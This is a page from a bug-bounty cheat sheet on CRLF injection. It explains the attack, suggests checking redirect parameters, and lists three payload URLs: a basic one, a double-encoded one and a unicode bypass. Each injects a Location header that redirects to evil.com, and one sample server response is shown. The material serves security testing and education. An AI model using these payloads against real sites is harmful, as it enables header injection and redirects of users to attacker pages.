 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/CRLF%20Injection.md#introduction)

A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/CRLF%20Injection.md#where-to-find)

It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/CRLF%20Injection.md#how-to-exploit)

1. Basic payload

```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/
```

The response is

```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode

```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode

```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/CRLF%20Injection.md#references)

- [@filedescriptor](https://blog.innerht.ml/twitter-crlf-injection/)
- [EdOverflow](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
